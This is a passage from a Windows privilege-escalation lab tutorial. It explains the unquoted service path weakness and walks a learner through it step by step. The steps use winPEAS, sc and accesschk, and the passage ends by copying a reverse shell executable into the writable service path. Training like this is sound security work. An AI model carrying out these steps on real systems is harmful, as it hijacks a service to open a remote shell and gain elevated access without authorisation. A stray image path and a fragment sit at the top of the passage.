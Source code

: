 AND BIM!

---



### Unquoted Service Path

Executables in Windows can be run without using their 
extension (e.g. “whoami.exe” can be run by just typing 
“whoami”).  

Some executables take arguments, separated by spaces, e.g. 
someprog.exe arg1 arg2 arg3…
This behavior leads to ambiguity when using absolute paths 
that are unquoted and contain spaces.

Consider the following unquoted path: 
````
C:\Program Files\Some Dir\SomeProgram.exe
````
To us, this obviously runs SomeProgram.exe. To Windows, ``C:\Program`` could be 
the executable, with two arguments: ``Files\Some`` and ``Dir\ SomeProgram.exe``
Windows resolves this ambiguity by checking each of the possibilities in turn.
If we can write to a location Windows checks before the actual executable, we 
can trick the service into executing it instead

--- 

**Exercise :**

Connect to your windows server VMwith user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
2. Note that the “unquotedsvc” service has an unquoted path that 
also contains spaces:
    ````
    C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
    ````
3. Confirm this using sc:
    ````
    sc qc unquotedsvc
    ````

4. Use accesschk.exe to check for write permissions:
    ````
    .\accesschk.exe /accepteula -uwdq C:\
    .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
    .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
    ````

5. Copy the reverse shell executable and rename it appropriately:
    ````
    copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
    ````
